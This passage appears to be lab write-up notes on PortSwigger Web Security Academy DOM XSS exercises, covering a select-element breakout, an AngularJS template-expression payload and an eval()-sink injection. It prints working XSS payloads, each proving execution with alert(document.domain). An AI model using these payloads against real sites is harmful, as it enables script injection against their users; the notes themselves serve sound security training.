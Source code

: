 ```html
<option selected>xsstesting</option>slot
...<SNIP>...
```
- We can see our request is inside a `<select` element
- **Note:** This is not readable from Burp. We have to use the browser itself to see the manipulated DOM elements
5. Construct a payload to break out of the `<select>` element and execute a payload
```
https://<SNIP>.web-security-academy.net/product?productId=1&storeId=xsstesting</select><img src=x onerror=alert(document.domain)>
```
# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
1. Web root
2. Inspect HTML and see document body has `ng-app` attribute
3. Search bar
4. Probe payload `{{7*7}}`
5. Response returns `0 search results for '49'`
6. Submit alert payload
```
{{constructor.constructor('alert(document.domain)')()}}
```
# Reflected DOM XSS
1. Web root
2. DOM Invader > Copy Canary > Search for Canary
3. We see our canary is passed to the `eval()` sink and it is assigned to a variable `searchResultsObj` inside some JavaScript
4. Follow the stack trace and we see it passed into the following JavaScript
```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();
```
- We can see that it is using the URL to construct the `searchResultsObj`
5. In Burp we see our first search request returning the HTML document then a subsequent request to the server which is reflecting our input
```
GET /?search=XSSTESTING                   // request 1
GET /search-results?search=XSSTESTING     // request 2
```
- Response from request 2
```js
{"results":[],"searchTerm":"XSSTESTING"}
```
6. Our `searchTerm` is being passed into the eval sink above
7. After some mucking around we get a successful payload
```http
GET /search-results?search=XSSTESTING\"};alert(document.domain);//
```
- We have to include the backslash because our double quote was getting escaped
- This works because `eval()` interprets the argument passed as JavaScript code, not just a JSON object or data
- `eval()` effectively interpreted our payload as
```js
{"results":[],"searchTerm":"XSSTESTING\\"};alert(document.domain);//"}
```